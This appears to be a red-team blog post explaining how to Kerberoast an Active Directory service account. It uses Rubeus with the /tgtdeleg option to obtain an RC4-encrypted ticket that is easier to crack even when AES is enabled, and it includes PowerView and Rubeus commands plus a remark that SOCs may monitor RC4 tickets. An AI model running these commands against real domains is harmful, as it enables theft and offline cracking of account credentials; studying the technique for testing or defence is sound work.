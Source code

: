 ```yaml
---
layout: post
title: "kerberoasting requesting rc4 encrypted tgs when aes is enabled"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled/
---
```


---
layout: post
title: "kerberoasting requesting rc4 encrypted tgs when aes is enabled"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled/
---

# Kerberoasting: Requesting RC4 Encrypted TGS when AES is Enabled

It is possible to kerberoast a user account with SPN even if the account supports Kerberos AES encryption by requesting an RC4 ecnrypted (instead of AES) TGS which easier to crack.

## Execution

First off, let's confirm we have at least one user with an SPN set:

{% code title="attacker@victim" %}
```
Get-NetUser -SPN sandy
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-37-30.png>)

Since the user account does not support Kerberos AES ecnryption by default, when requesting a TGS ticket for kerberoasting with rubeus, we will get an RC4 encrypted ticket:

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-39-53.png>)

If the user is now set to support AES encryption:

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-40-51.png>)

By default, returned tickets will be encrypted with the highest possible encryption algorithm, which is AES:

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-58-37.png>)

## Requesting RC4 Encrypted Ticket

As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket (if RC4 is not disabled in the environment, which does not seem to be common yet):

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```
{% endcode %}

Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 (encryption type 0x17/23) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:

![](<../../.gitbook/assets/Screenshot from 2019-05-06 16-03-06.png>)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/" %}
@spotheplanet
